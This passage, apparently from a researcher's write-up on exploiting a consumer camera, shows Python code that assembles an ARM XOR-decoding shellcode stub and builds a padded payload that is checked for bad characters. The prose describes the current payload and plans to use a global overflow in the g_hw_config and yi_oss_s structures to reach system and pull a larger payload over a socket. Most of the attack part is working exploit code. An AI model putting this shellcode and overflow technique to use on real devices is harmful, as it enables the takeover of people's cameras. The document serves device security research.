 ```
	@ r3: Address of sleep in libc
	@ r6: Address of the input array
	@ r7: Current position
	@ r8: Key for XOR operation

	xor_decode:
		ldmia sp!,{{r3, r4, r5, r6, r7, r8}}
		mov r1, #{hex(len(payload_assembled_bytes))}
		mov r8, #{hex(key)}
		mov r7, r1
	loop:
		ldrb r4, [r6], #1 @ Load byte from input array and increment pointer
		eor r4, r4, r8 @ XOR with the key
		strb r4, [r6, #-1] @ Store the result back in the array (decrementing pointer)
		subs r7, r7, #1 @ Decrement loop counter
		sub r2, r7, #1 @ Subtract 1 from loop counter and check if result is positive or zero
		bpl loop @ If positive or zero, repeat the loop
	sleep:
		mov r5,#0x5
		stmdb sp!,{{r5,lr}}
		ldmia sp!,{{r0,lr}}
		add sp,sp,#0x1000
		blx r3
	"""

	# Assemble the ARM code
	decoder_assembled = asm(decoder_asm, arch='arm')

	# Print the assembled machine code
	decoder_assembled_bytes = bytes.fromhex(decoder_assembled.hex())
	info("Decoder:")
	info(get_hexdump(decoder_assembled_bytes))

	# build payload
	payload = decoder_assembled_bytes + payload_assembled_bytes
	payload += (target_length - len(payload)) * b'\x41'

	info("Constructed payload:")
	info(get_hexdump(payload))

	if ((0xa in payload) or (0x0 in payload)):
		info("BAD CHARS!!!! Needs a reboot :'(")

	return payload
```

I only have space for a very small payload at the moment due to the 128 byte limitation we have. The payload turns on the light of the camera, sleeps for 16 seconds, then crashes - very sophisticated.

If I want to extend the payload, there is some space in the **g_hw_config** structure, and due to the global overflow, we can also overwrite the empty **yi_oss_s** structure - this would give us about 100 more bytes, which would definitely be enough to call **system**, and probably also enough to turn the hotspot back on and receive a larger payload over a socket.
